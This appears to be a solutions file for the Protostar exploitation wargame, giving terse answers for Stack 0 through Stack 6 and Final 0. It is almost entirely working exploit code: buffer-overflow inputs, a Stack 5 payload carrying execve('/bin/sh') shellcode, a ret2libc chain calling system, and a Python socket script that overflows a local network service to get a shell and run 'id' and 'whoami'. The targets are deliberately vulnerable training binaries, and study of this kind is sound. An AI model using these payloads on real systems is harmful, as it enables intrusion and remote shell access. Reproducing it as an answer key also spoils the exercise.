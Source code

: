 Protostar
===========
## Stack 0
(python -c "print '0'*65") | ./stack0

## Stack 1
./stack1 $(python -c "print 'a'*64 + 'dcba'")

## Stack 2
export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'") ; ./stack2

## Stack 3
objdump -x stack3 | grep win   |||||||   (python -c "print 'a'*64 + '\x24\x84\x04\x08'";) | ./stack3

## Stack 4
objdump -x stack4 | grep win  
(python -c "print 'a'*76 + '\xf4\x83\x04\x08'";) | ./stack4

## Stack 5
- python -c "print 'a'*70 + 'B'*4 +'C'*4 +'D'*4 + 'E'*4" > padding
- gdb -q stack5 
- break * main 
- disassemble main 
- run < padding 
- info registers
- random stack address = \xcc\xf7\xff\xbf
- (python -c "print 'a' * 76 + '\xcc\xf7\xff\xbf' + '\x90' * 40 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | ./stack5

## Stack 6
gdb -q stack6 ||||| break * getpath |||| run < padding |||| info registers ||||| p system $1 |||| info proc mappings $2 |||| $ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh" $3 |||| 0xb7e97000 + 0x11f3bf = 0xb7fb63bf |||| (python -c "print  'a'*80 + '\xb0\xff\xec\xb7' + '\x90'*4 + '\xbf\x63\xfb\xb7'"; cat) | ./stack6

## Final 0
gdb -p `pidof final0` ||||  set follow-fork-mode child |||| run |||| python -c "print 'a'*522+ 'aaaabbbbccccdd'" | nc 127.0.0.1 2995 |||| info registers |||| info proc mappings |||| strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"

```
import struct
import socket

HOST = '127.0.0.1'
PORT = 2995

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((HOST, PORT))

padding = 'a' * 532

execve = struct.pack('I', 0x08048c0c)

binsh = struct.pack('I', 0xb7e97000 + 0x11f3bf) #mappings + strings
exploit = padding + execve + '\x90' * 4 + binsh + '\x00' * 8
client.send(exploit + '\n')
client.send('id\n')
print(client.recv(1024))
client.send('whoami\n')
print(client.recv(1024))
```